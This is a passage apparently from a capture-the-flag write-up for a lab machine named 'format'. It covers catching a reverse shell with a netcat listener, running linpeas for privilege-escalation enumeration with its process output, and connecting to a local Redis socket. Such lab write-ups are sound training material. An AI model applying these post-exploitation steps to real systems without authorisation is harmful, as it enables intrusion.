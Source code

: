 ![](/assets/img/format/6.png)

catch the shell using netcat with command :

```bash
rlwrap nc -lvnp 9000
```

![](/assets/img/format/7.png)

uploaded a linpeas to gather more information inside target.

linpeas.sh result:

```bash
www-data   27839  0.0  0.4 211104 17044 ?        S    Jun25   0:03  _ php-fpm: pool www
#here
redis        604  0.1  0.3  65164 15348 ?        Ssl  Jun23   7:09 /usr/bin/redis-server 127.0.0.1:0
---------------------
root         607  0.0  0.0   5844  1708 tty1     Ss+  Jun23   0:00 /sbin/agetty -o -p -- u --noclear tty1 linux
root         614  0.0  0.0  57136  1772 ?        Ss   Jun23   0:00 nginx: master process /usr/sbin/nginx -g daemon[0m on; master_process on;
www-data     619  0.0  0.1  57548  5356 ?        S    Jun23   1:47  _ nginx: worker process
www-data     620  0.1  0.1  57704  5348 ?        S    Jun23   4:06  _ nginx: worker process
```

based on [stackoverflow](https://stackoverflow.com/questions/9445024/how-can-i-use-local-redis-client-to-connect-to-socket), we can connect to socket using `redis-client`.

```
redis-cli -s /run/redis/redis.sock
```

Redis **keys** commands are used for managing keys in Redis.

![](/assets/img/format/2.png)
